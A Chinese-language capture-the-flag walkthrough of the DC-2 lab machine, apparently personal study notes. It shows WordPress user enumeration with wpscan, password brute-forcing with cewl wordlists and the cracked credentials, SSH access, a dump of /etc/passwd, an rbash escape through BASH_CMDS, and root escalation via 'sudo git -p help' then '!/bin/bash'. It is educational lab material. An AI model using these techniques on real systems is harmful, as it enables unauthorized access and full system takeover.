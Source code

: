 # DC2靶机实战

> 扫描端口

![image-20240916120903636](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916120903636.png)

![image-20240916144153528](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916144153528.png)

- 发现开了`80端口`和`7744端口`,优先看80端口

![image-20240916120950882](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916120950882.png)

- 发现无法解析`域名`

> 添加到host

```cmd
//找到该路径下的hosts文件,添加 ip + 域名
C:\Windows\System32\drivers\etc\hosts
```

![image-20240916123403982](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916123403982.png)

- 重新进入网页,获取第一个`flag`
- ![image-20240916123457883](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916123457883.png)

> 爆破web目录

- 二话不说,直接爆破web路径

![image-20240916125059654](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916125059654.png)

- 一个一个点进去看,发现有个`http://dc-2/wp-admin/install.php`会跳转到一个登录框`http://dc-2/wp-login.php`

![image-20240916125201414](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916125201414.png)

> 爆破账号密码登录

```cmd
//枚举用户
 wpscan --url http://dc-2 --enumerate u
```

![image-20240916135832100](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916135832100.png)

- 可能存在这三个用户(`tom`,`admin`,`jerry`),写入字典爆破看看

- ```cmd
  //使用该命令生成密码本
  cewl -o http://dc-2/
  ```

  ![image-20240916142801583](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916142801583.png)

  ![image-20240916144327728](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916144327728.png)

```cmd
//爆破出账户
jetty adipiscing
tom parturient
```

- 在`jerry`的`all page`找到了`flag2`

![image-20240916143747190](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916143747190.png)

> 尝试爆破ssh(7744)

![image-20240916145548423](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916145548423.png)

```cmd
//连接ssh
ssh tom@192.168.234.111
parturient	
```

![image-20240916145740808](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916145740808.png)

- 发现`flag3.txt`但是没办法查看,有`rbash`限制

- 查看哪些`命令`可用
- ![image-20240916150145791](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916150145791.png)

- 那么这里使用`vi flag3.txt`查看
- ![image-20240916151808109](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916151808109.png)

- 这里特意区`百度`了一下(新手上路)

- 这句话是一个带有幽默感的双关语，结合了经典的卡通角色Tom和Jerry的名字以及一个常见的计算机命令的用法。

  - **Tom and Jerry** 是一个经典的动画片，其中Tom（猫）总是追逐Jerry（鼠标）。这是一个熟悉的卡通情节，Tom永远在追逐Jerry。

  - **su** 是 Unix/Linux 系统中的一个命令，用于切换用户身份（"su" 是 "substitute user" 的缩写）。通常用于在命令行中以另一用户的身份执行命令。

  在这句话中，"Perhaps he should su for all the stress he causes" 既可以理解为对Tom角色的幽默调侃，也有一种计算机方面的双关：

  1. **字面意义：** 这里的"su"可以被理解为“应该换成其他用户来应对所有的压力”，这是一个对Tom压力的幽默描述。

  2. **技术双关：** 在计算机领域，"su" 是一个命令，Tom在这里被戏称为“应该使用 `su` 命令`切换用户`”，即换成其他用户来处理他所面临的压力或任务。

  整体上，这句话利用了Tom和Jerry的幽默和技术术语的双关，增添了一种轻松和有趣的风格。

```bash
//查看用户信息
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
tom:x:1001:1001:Tom Cat,,,:/home/tom:/bin/rbash
jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash
"/etc/passwd" [readonly] 29 lines, 1547 characters
```

- 发现`jeryy`是存在的,只是需要`rbash 逃逸`登录(jerry:x:1002:1002:Jerry Mouse,,,:/home/jerry:/bin/bash)

> rabash 逃逸

```bash
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin
/home/tom/usr/bin
tom@DC-2:~$ echo /home/tom/usr/bin/*
/home/tom/usr/bin/less /home/tom/usr/bin/ls /home/tom/usr/bin/scp /home/tom/usr/bin/vi
tom@DC-2:~$ BASH_CMDS[a]=/bin/bash
tom@DC-2:~$ a
tom@DC-2:~$ /bin/bash
tom@DC-2:~$ export PATH=PATH:/sbin:/bin
tom@DC-2:~$ echo $PATH
PATH:/sbin:/bin
```

![image-20240916153202759](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916153202759.png)

- 切换`用户`

![image-20240916153308653](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916153308653.png)

- 查看`flag4.txt`
- ![image-20240916153419611](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916153419611.png)

```bash
这段话是一个典型的计算机安全挑战或解谜活动中的提示信息。它带有一些俏皮和鼓励的语气，通常用来激励参与者继续努力完成任务。下面是对这段话的逐步解析：

1. "Good to see that you've made it this far - but you're not home yet."
   - 意思是你已经在这个任务中取得了一些进展，但还没有完成最终目标。这里的“home”指的是完成任务或达到目标。

2. "You still need to get the final flag (the only flag that really counts!!!)."
   - 你还需要获取最后一个“flag”。在安全挑战中，"flag" 通常指代一个特定的标志或密钥，证明你已经成功完成了某项任务或解谜。这个“flag”是任务中最重要的一个，意味着最终的胜利或成功。

3. "No hints here - you're on your own now. :-)"
   - 这句话告诉你，接下来的部分没有提示或帮助，你需要依靠自己的努力来完成剩下的任务。微笑符号表示这是一种友好的提醒，而不是一种压力。

4. "Go on - git outta here!!!!"
   - 这句有双重含义：
     - **字面意思：“git outta here”是“离开这里”的俚语，鼓励你去完成任务。
     - **技术双关: "git" 是一个流行的版本控制系统，这里可能是一个有意的双关用语，暗示你可能需要使用 `git` 相关的命令或技巧来解决问题。

总结来说，这段话是在激励你继续努力完成最后的任务，利用一些幽默和技术术语来增加趣味性。
```

![image-20240916153628105](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916153628105.png)

```bash
sudo git -p help

!/bin/bash
```

- 到这里打开一个用户为`root`的shell

- 查找flag,`find / -name "*flag*"`

![image-20240916154112161](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240916154112161.png)